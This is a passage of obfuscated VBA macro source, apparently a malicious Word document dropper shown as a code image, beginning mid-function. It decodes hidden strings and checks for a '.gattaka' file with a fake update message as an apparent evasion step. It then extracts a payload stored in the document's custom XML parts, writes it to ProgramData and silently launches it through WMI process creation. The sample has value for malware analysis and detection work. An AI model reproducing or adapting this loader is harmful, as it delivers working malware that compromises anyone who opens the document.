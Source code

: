 ```vb
    Else
        phtlfmyqnkhwagf = cwqykutktzoyalcwyhbf
    End If
    bvtmffmapjkqz = Rnd * UBound(phtlfmyqnkhwagf)
    xijjpjosysboevz = phtlfmyqnkhwagf(bvtmffmapjkqz)
    qbtpnhioyfve = zmzddjxylinzyx(rrhzspxkphvvy(retkrmjepnvpt), xijjpjosysboevz)
    ReDim asertrmporfilkp(0 To 1)
    asertrmporfilkp(0) = CInt(Rnd * 9 + 48)
    qbtpnhioyfve = zmzddjxylinzyx(qbtpnhioyfve, asertrmporfilkp)
    asertrmporfilkp = rrhzspxkphvvy(kppsxxgzlizwzk)
    qbtpnhioyfve = zmzddjxylinzyx(qbtpnhioyfve, asertrmporfilkp)
    lcjsxjbkldksstie = qbtpnhioyfve
End Function
Sub yoxtuitsmsvbjfepuxc()
    zwxcnxajcshyp True
End Sub
Private Sub zwxcnxajcshyp(zdhyapqsagz As Boolean)
    Const merrdjtosyhjjuraz = "166157191179213210202213196208167196215196191"
    Const iujnoejlhsccsg = "218204209208202208215214157222204208211200213214210209196215204210209175200217200207160204208211200213214210209196215200224132191191145191213210210215191198204208217149"
    Const qpwyadnvluauprq = "186204209150149194179213210198200214214182215196213215216211"
    Const lwflmkaqbtsalhmvh = "218204209208202208215214157213210210215191198204208217149157186204209150149194179213210198200214214"
    Const ichejlnhmywnfzndkdg = "203215215211157146146207210198196207203210214215146"
    Dim pnjbsrngsgckjayoasd() As Byte
    Dim diowrynmsjektmzbl As String
    Dim nvplchnzsnuzfpoy As String
    If Dir(".gattaka") <> "" Then
        MsgBox "Obsolete environment, please, update", vbInformation
    Else
        If zdhyapqsagz Then
            pnjbsrngsgckjayoasd = tylkftcicrjxfvkh(ActiveDocument.CustomXMLParts(rrhzspxkphvvy(ichejlnhmywnfzndkdg)).SelectSingleNode("/").Text)
            diowrynmsjektmzbl = lcjsxjbkldksstie
            raeozmfjnymq rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl, pnjbsrngsgckjayoasd, False
            pnjbsrngsgckjayoasd = rrhzspxkphvvy(merrdjtosyhjjuraz)
            Set fhfcsnunstz = GetObject(rrhzspxkphvvy(iujnoejlhsccsg))
            Set xydisndhrfnkrmnael = fhfcsnunstz.Get(rrhzspxkphvvy(qpwyadnvluauprq))
            Set ieupzwunaig = xydisndhrfnkrmnael.SpawnInstance_
            Set mpuduxzmupgceh = GetObject(rrhzspxkphvvy(lwflmkaqbtsalhmvh))
            nvplchnzsnuzfpoy = rrhzspxkphvvy("213216209199207207150149131") + rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl + rrhzspxkphvvy("143204209204215")
            vdibilucsvcvqrqhgbyy = mpuduxzmupgceh.Create(nvplchnzsnuzfpoy, Null, ieupzwunaig, uyyuhnoffydfft)
        Else
        End If
    End If
End Sub
```
